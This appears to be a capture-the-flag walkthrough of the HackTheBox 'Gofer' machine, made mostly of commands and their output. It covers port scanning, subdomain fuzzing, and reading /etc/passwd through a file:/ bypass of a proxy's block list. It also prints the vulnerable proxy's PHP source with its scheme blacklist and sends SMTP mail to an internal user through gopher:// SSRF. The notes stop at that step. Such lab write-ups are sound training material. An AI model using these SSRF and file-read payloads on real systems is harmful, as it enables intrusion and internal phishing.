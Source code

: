 gofer 10.10.11.225

nmap -p- --min-rate 4000 10.10.11.225
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:22 CEST
Nmap scan report for 10.10.11.225
Host is up (0.20s latency).
Not shown: 63571 filtered tcp ports (no-response), 1960 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

nmap -p 80,139,445 -sC -sV --min-rate 3000 10.10.11.225

Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:26 CEST
Nmap scan report for 10.10.11.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb

Host script results:
| smb2-time: 
|   date: 2023-08-03T06:26:56
|_  start_date: N/A
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.23 seconds

echo "10.10.11.225 gofer.htb" | sudo tee -a /etc/hosts

**Corporate website**
- Jeff Davis - Chief Executive Officer 
- Jocelyn Hudson - Product Manager 
- Tom Buckley - CTO 
- Amanda Blake - Accountant 

wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 400,301 -H 'Host:FUZZ.gofer.htb' http://gofer.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://gofer.htb/
Total requests: 220560

'=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                     
'=====================================================================

000001171:   401        14 L     54 W       462 Ch      "proxy" 

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php

<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST -d 'URL=http://10.10.16.26' http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=http://10.10.16.26
<!-- Welcome to Gofer proxy -->

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd
<!-- Welcome to Gofer proxy -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postfix:x:106:113::/var/spool/postfix:/usr/sbin/nologin
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
tcpdump:x:107:117::/nonexistent:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

┌─[xbutch@parrot]─[~]
└──╼ $smbmap -H 10.10.11.225
[+] IP: 10.10.11.225:445	Name: gofer.htb                                         
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	**shares**                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.13.13-Debian)

┌─[xbutch@parrot]─[~]
└──╼ $smbclient //gofer.htb/shares
Password for [WORKGROUP\xbutch]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct 28 21:32:08 2022
  ..                                  D        0  Fri Apr 28 13:59:34 2023
  .backup                            DH        0  Thu Apr 27 14:49:32 2023
		5061888 blocks of size 1024. 2153684 blocks available
smb: \> cd .backup
smb: \.backup\> ls
  .                                   D        0  Thu Apr 27 14:49:32 2023
  ..                                  D        0  Fri Oct 28 21:32:08 2022
  mail                                N     1101  Thu Apr 27 14:49:32 2023

		5061888 blocks of size 1024. 2153628 blocks available
smb: \.backup\> get mail
getting file \.backup\mail of size 1101 as mail (3,0 KiloBytes/sec) (average 3,0 KiloBytes/sec)

┌─[xbutch@parrot]─[~]
└──╼ $cat mail
From **jdavis@gofer.htb**  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: **tbuckley@gofer.htb**
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an **.odt format**, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>

https://github.com/tarunkant/Gopherus

**┌─[xbutch@parrot]─[~]
└──╼ $curl --request POST --location "http://proxy.gofer.htb/index.php?url=file:/var/www/proxy/index.php"**
<!-- Welcome to Gofer proxy -->
<!-- Welcome to Gofer proxy -->
<?php
function is_blacklisted($url) {	
    $keywords = array("localhost", "/127", "about://", "acap://", "addbook://", "afp://", "afs://", "aim://", "applescript://", "bcp://", "bk://", "btspp://", "callto://", "castanet://", "cdv://", "chrome://", "chttp://", "cid://", "crid://", "data://", "dav://", "daytime://", "device://", "dict://", "dns://", "doi://", "dtn://", "ed2k://", "eid://", "enp://", "fax://", "feed://", "file://", "finger://", "freenet://", "ftp://", "go://", "gsiftp://", "gsm-sms://", "h323://", "h324://", "hdl://", "hnews://", "httpsy://", "iioploc://", "ilu://", "im://", "imap://", "info://", "ior://", "ip://", "ipp://", "irc://", "iris.beep://", "itms://", "jar://", "javascript://", "jdbc://", "klik://", "kn://", "lastfm://", "ldap://", "lifn://", "livescript://", "lrq://", "mac://", "magnet://", "mailbox://", "mailserver://", "mailto://", "man://", "md5://", "mid://", "mms://", "mocha://", "modem://", "moz-abmdbdirectory://", "msni://", "mtqp://", "mumble://", "mupdate://", "myim://", "news://", "nltk://", "nfs://", "nntp://", "oai://", "opaquelocktoken://", "pcast://", "phone://", "php://", "pop://", "pop3://", "pres://", "printer://", "prospero://", "pyimp://", "rdar://", "res://", "rtsp://", "rvp://", "rwhois://", "rx://", "sdp://", "secondlife://", "service://", "sip://", "sips://", "smb://", "smtp://", "snews://", "snmp://", "soap.beep://", "soap.beeps://", "soap.udp://", "subethaedit://", "svn://", "svn\+ssh://", "t120://", "tag://", "tann://", "tcp://", "tel://", "telephone://", "telnet://", "tftp://", "thismessage://", "tip://", "tn3270://", "tv://", "txmt://", "uddi://", "urn://", "uuid://", "vemmi://", "videotex://", "view-source://", "wais://", "wcap://", "webcal://", "whodp://", "whois://", "wpn://", "wtai://", "xeerkat://", "xfire://", "xmlrpc.beep://", "xmlrpc.beeps://", "xmpp://", "ymsgr://", "z39.50r://", "z39.50s");
    foreach ($keywords as $k) {
        if(strpos(strtolower($url), "$k") !== false) {
            return $k;
        }
    }
    return false;
}
if(!empty($_GET["url"])) {
    $url = $_GET["url"];
    $is_blacklisted = is_blacklisted($url);
    if($is_blacklisted === false) {
        $url = $_GET["url"];
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $url);
        curl_setopt($c, CURLOPT_FOLLOWLOCATION, true);
        $output = curl_exec($c);
        curl_close($c);
        echo $output;
    }
    else {
        echo "<html><body>Blacklisted keyword: $is_blacklisted !</body></html>";
    }
} else {
    echo "<html><body>Missing URL parameter !</body></html>";
}
?>

**┌─[✗]─[xbutch@parrot]─[~]
└──╼ $curl -X POST "http://proxy.gofer.htb/index.php?url=gopher%3A%2F%2F0.0.0.0%3A25%2F_HELO%20gofer.htb%250AMAIL%20FROM%3A%20%3Chacker%40site.com%3E%250ARCPT%20TO%3A%20%3Cjhudson%40gofer.htb%3E%250ADATA%250ASubject%3A%20TEST%250ATEST%250A.%250AQUIT"**
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 38F58814F
221 2.0.0 Bye
1
